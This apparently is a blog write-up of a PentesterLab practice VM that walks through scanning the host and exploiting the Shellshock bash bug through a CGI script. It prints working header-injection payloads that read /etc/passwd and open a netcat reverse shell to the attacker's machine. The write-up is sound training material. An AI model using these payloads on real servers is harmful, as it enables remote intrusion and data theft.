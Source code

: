 ```yaml
---
layout: post
title:  "PentestLabs CVE-2014-6271 (ShellShock)"
subtitle: "Vulnhub Writeups"
date:   2017-03-10 15:00:00 -0000
author: "coastal"
header-img: "images/site-resources/shellshock-header.jpg"
---
```

# Introduction
ShellShock is a vulnerability in which environmental variables of the bash shell could be used to perform remote code execution. This VM from PentestLabs tasks you with gaining a shell on the system by abusing the ShellShock vuln.

# Attack

First step for us after setting up the VM is to scan the network and find it.

```
root@kali:~# netdiscover -i eth1



 Currently scanning: 192.168.92.0/16   |   Screen View: Unique Hosts                                           
                                                                                                               
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor                                              
 192.168.56.100  08:00:27:02:fd:51      1      60  PCS Systemtechnik GmbH                                      
 192.168.56.103  08:00:27:9b:76:f2      1      60  PCS Systemtechnik GmbH 
```

Alright, our target is at ```192.168.56.103```. Let's do a port scan and see what services are available:

```
root@kali:~# nmap -sV -p- 192.168.56.103

Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-10 13:00 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.21 ((Unix) DAV/2)
MAC Address: 08:00:27:9B:76:F2 (Oracle VirtualBox virtual NIC)
```

We see that there is an Apache instance running on port 80. Let's connect with our browser and see what is being served.

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/home-page.jpg">

Interesting, it is showing us some information about the uptime and kernel version running on the server. This is dynamically-generated content. Why don't we take a look at the traffic in Burp and see if there is any interceptable command request being fired.

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/cgi-request.jpg">

Aha, we have a request being made to /cgi-bin/status. Some googling leads us to the likely purpose of the request.

Common Gateway Interface (CGI)
> In computing, Common Gateway Interface (CGI) offers a standard protocol for web servers to execute programs
> that execute like Console applications (also called Command-line interface programs) running on a server that
> generates web pages dynamically. Such programs are known as CGI scripts or simply as CGIs. The specifics of how
> the script is executed by the server are determined by the server. In the common case, a CGI script essentially
> executes at the time a request is made and generates HTML.[1]

Some important details related to this vulnerability is that this CGI is written in bash. Another detail is that Apache uses environmental variables to pass headers to CGI scripts. And finally, bash can have internal function declaration in environmental variables. The vulnerability itself is that the vulnerable version of bash allowed for the execution of arbitrary commands after a function declaration.

So, in order to perform this attack, we need to modify one of the header values so that it declares an empty bash function. We concatenate another command on the end of that function declaration, and that command should be arbitrarily executed by the server when Apache stores the header as an environmental variable when the CGI is called. This output should be returned to us in the response headers. Let's transition to throwing requests via a terminal so we can grab the response headers easily and try to pop ```/etc/passwd```.

```
echo -e "head /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: 192.168.56.103\r\nConnection: close\r\n\r\n" | nc 192.168.56.103 80
HTTP/1.1 200 OK
Date: Fri, 10 Mar 2017 19:00:40 GMT
Server: Apache/2.2.21 (Unix) DAV/2
root: x:0:0:root:/root:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/false
tc: x:1001:50:Linux User,,,:/home/tc:/bin/sh
pentesterlab: x:1000:50:Linux User,,,:/home/pentesterlab:/bin/sh
Content-Length: 175
Connection: close
Content-Type: application/json

{ "uptime": " 19:00:40 up 1:45, 1 users, load average: 0.00, 0.01, 0.01", "kernel": "Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux"} 
```

Alright! We have remote code execution. Now let's grab ourselves a shell

```
echo -e "head /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.102 4444 -e /bin/sh\r\nHost: 192.168.56.103\r\nConnection: close\r\n\r\n" | nc 192.168.56.103 80
```

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/reverse-shell.jpg">

And we have successfully pwn'd the box! This vulnerability is worryingly simple. It was discovered in 2014 and retroactive analysis of the Bash source code showed that the bug had existed since 1989...While the vector in this attack was through a bash-based CGI script handler, there are other vectors for Shellshock including

- OpenSSH ```ForceCommand``` on-login execution of environmental variable ```SSH_ORIGINAL_COMMAND``` to upgrade a restricted shell to an unrestricted shell
- DHCP client execution of payload string received from malicious DHCP Server
- Qmail server passage of external input

There is a test command that can be used to detect this initial version of the ShellShock vulnerability. Execution on vulnerable and secure hosts can be seen here.

#### Vulnerable

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/test-vulnerable.jpg">

#### Safe

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/test-safe.jpg">

The vulnerability also went through multiple iterations before being completely patched out in 2014. All in all, a cool vulnerability and exploit!

## References

[1. Wikipedia of Course][wiki]


[2. Pentestlabs writeup][pentest]

[wiki]:https://en.wikipedia.org/wiki/Shellshock_(software_bug)
[pentest]:https://pentesterlab.com/exercises/cve-2014-6271/course



